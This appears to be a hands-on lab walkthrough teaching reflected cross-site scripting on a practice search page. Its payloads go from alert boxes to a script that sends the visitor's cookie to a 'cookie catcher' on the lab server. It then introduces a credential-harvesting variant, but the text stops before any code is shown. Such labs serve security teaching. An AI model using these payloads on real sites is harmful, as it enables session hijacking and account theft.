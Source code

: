 	http://54.172.112.249/xss_practice/

	A really simple search page that is vulnerable should come up. 




2. In the search box type:
	
	<script>alert('So this is XSS')</script>


	This should pop-up an alert window with your message in it proving XSS is in fact possible.
	Ok, click OK and then click back and go back to http://54.172.112.249/xss_practice/


3. In the search box type:
	
	<script>alert(document.cookie)</script>


	This should pop-up an alert window with your message in it proving XSS is in fact possible and your cookie can be accessed.
	Ok, click OK and then click back and go back to http://54.172.112.249/xss_practice/

4. Now replace that alert script with:

	<script>document.location="http://54.172.112.249/xss_practice/cookie_catcher.php?c="+document.cookie</script> 


This will actually pass your cookie to the cookie catcher that we have sitting on the webserver.


5. Now view the stolen cookie at:
	http://54.172.112.249/xss_practice/cookie_stealer_logs.html


The cookie catcher writes to this file and all we have to do is make sure that it has permissions to be written to.






############################
# A Better Way To Demo XSS #
############################


Let's take this to the next level. We can modify this attack to include some username/password collection. Paste all of this into the search box.


Use Firefox to browse to the following location:

	http://54.172.112.249/xss_practice/



Paste this in the search box
----------------------------


Option 1
--------
